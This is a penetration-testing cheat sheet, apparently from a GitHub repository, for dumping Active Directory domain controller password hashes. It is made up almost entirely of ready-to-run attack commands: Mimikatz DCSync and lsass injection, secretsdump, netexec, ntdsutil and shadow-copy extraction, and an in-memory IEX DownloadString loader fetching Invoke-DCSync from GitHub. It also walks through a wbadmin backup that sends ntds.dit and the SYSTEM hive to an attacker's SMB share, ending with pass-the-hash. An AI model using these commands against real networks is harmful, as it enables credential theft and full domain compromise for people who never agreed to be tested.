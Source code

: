 # Dump NTDS from Domain Controller

## Tools: CrackMapExec/Netexec , secretsdump , ntdsutil , metasploit , certsync

    netexec smb DC_IP -u USER -p PASSWORD -d DOMAIN --ntds

    impacket-secretsdump 'DOMAIN/USER:PASSWORD'@IP -just-dc-ntlm

    windows/gather/credentials/domain_hashdump (Metasploit)

    certsync -u USER -p PASSWORD -d DOMAIN -dc-ip DC_IP -ns NAMESERVER_IP

    use auxiliary/admin/smb/psexec_ntdsgrab (Metasploit)

### Invoke-DCSync

##### Load into memory

    IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/Invoke-DCSync.ps1")

##### Execute

    Invoke-DCSync -dcfqdn DC01.security.local -username administrator

### Mimikatz

##### Dump hashes for a specified users

    Invoke-Mimikatz -command '"lsadump::dcsync /domain:security.local /user:moe"'

##### Dump hashes for all users

    Invoke-Mimikatz -command '"lsadump::dcsync /domain:security.local /all"'

##### Dump hashes by injecting into the lsass process on the Domain Controller

    Invoke-Mimikatz -command '"lsadump::lsa /inject"'

### PsMapExec

##### As current user

    PsMapExec -Targets DCs -Method SMB -Module NTDS

##### As a specified user

    PsMapExec -Targets DCs -Method SMB -Module NTDS -Username Administrator -Password Password123!


### NTDSUtil

    ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q (On the DC)

    impacket-secretsdump -ntds NTDS_FILE.dit -system SYSTEM_FILE -hashes LMHASH:NTHASH LOCAL -outputfile ntlm-extract

### With these techniques you can move everywhere within the entire domain, as well as possibly compromise the Enterprise Admin (in this case it's game over)

# DUMP DOMAIN CONTROLLER HASHES LOCALLY WITH NTDSUTIL

## required files: 

### 1) C:\windows\NTDS\ntds.dit

### 2) C:\windows\system32\config\SYSTEM

### 3) C:\windows\system32\config\SECURITY

## Locating the ntds custom location: reg query HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v "DSA Database file"

#### 1) 

    powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"

#### 2) Transfer them to attacking machine

#### 3) 

    python3 Impacket-Secretsdump.py -security /path/to/SECURITY -system /path/to/SYSTEM -ntds path/to/ntds.dit local

# DUMP DOMAIN CONTROLLER HASHES WITH WBADMIN

#### 1) Create an new user that maches the "force user" parameter in the /etc/samba/smb.conf file:

#### 

    adduser smbuser

#### 

    smbpasswd -a smbuser

#### 

    sudo service smbd restart 

#### 2) Mount the share

    net use k: \\OUR_IP\SHARE /user:smbuser smbpass 

#### 3) Backup NTDS folder

    echo "Y" | wbadmin start backup -backuptarget:\\OUR_IP\SHARE -include:c:\windows\ntds 

#### 4) Retrieve the version of the backup

    sbadmin get versions 

#### 5) Restore the NTDS file, specifying the backup version

    echo "Y" | wbadmin start recovery -version:10/01/2020-14:23 -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:C:\ -notrestoreacl 

#### 6) Export the system hive

    reg save HKLM\SYSTEM C:\system.hive 

#### 7) Transfer the ntds.dit file to our share

    cp ntds.dit \\OUR_IP\SHARE\NTDS.dit

#### 8) Transfer the system hive to our share

    cp system.hive \\OUR_IP\\SHARE\system.hive

#### 9) Dump hashes from NTDS

    impacket-secretsdump -ntds NTDS.dit -system system.hive LOCAL

#### 10) Do a Pass-the-Hash attack with wmiexec/smbexec/psexec or evil-winrm 

#### 11) PROFIT

# CRACKMAPEXEC

#### 1) 

    crackmapexec smb 10.10.10.10 -u 'username' -p 'password' --ntds

#### 2) 

    crackmapexec smb 10.10.10.10 -u 'username' -p 'password' --ntds drsuapi

#### 3) 

    crackmapexec smb 10.10.0.202 -u username -p password --ntds vss

# VOLUME SHADOW COPY (VSS)

#### 1) 

    vssadmin create shadow /for=C:

#### 2) 

    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy

#### 3) 

    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy

# NTDS Reversible Encryption

### UF_ENCRYPTED_TEXT_PASSWORD_ALLOWED (0x00000080), if this bit is set, the password for this user stored encrypted in the directory - but in a reversible form.

### The key used to both encrypt and decrypt is the SYSKEY, which is stored in the registry and can be extracted by a domain admin. This means the hashes can be trivially reversed to the cleartext values, hence the term “reversible encryption”.

#### 1) List users with "Store passwords using reversible encryption" enabled

    Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl

### The password retrieval is already handled by SecureAuthCorp/secretsdump.py and mimikatz, it will be displayed as CLEARTEXT.

